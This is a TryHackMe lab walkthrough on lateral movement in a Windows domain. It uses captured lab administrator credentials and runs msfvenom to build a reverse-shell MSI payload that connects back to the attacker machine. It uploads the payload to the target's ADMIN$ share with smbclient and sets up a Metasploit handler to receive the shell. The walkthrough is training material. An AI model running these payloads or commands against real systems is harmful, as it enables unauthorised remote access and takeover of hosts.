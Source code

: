 <figure><img src="../../.gitbook/assets/image (7) (1) (3).png" alt=""><figcaption></figcaption></figure>

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:** ZA.TRYHACKME.COM\t1\_corine.waters

**Password:** Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using WMI and MSI packages. Feel free to try the other methods presented during this task.

We will start by creating our MSI payload with msfvenom from our attacker machine:

Note: Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myinstaller.msi" to avoid overwriting someone else's payload.\


<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

We then copy the payload using SMB or any other method available:

**Kali**

```
smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

Since we copied our payload to the ADMIN$ share, it will be available at C:\Windows\ on the server.

We start a handler to receive the reverse shell from Metasploit:

**Kali**

<pre><code><strong>msfconsole
</strong>use exploit/multi/handler
<strong>set LHOST lateralmovement
</strong>set LPORT 4445
set payload windows/x64/shell_reverse_tcp
exploit 
</code></pre>
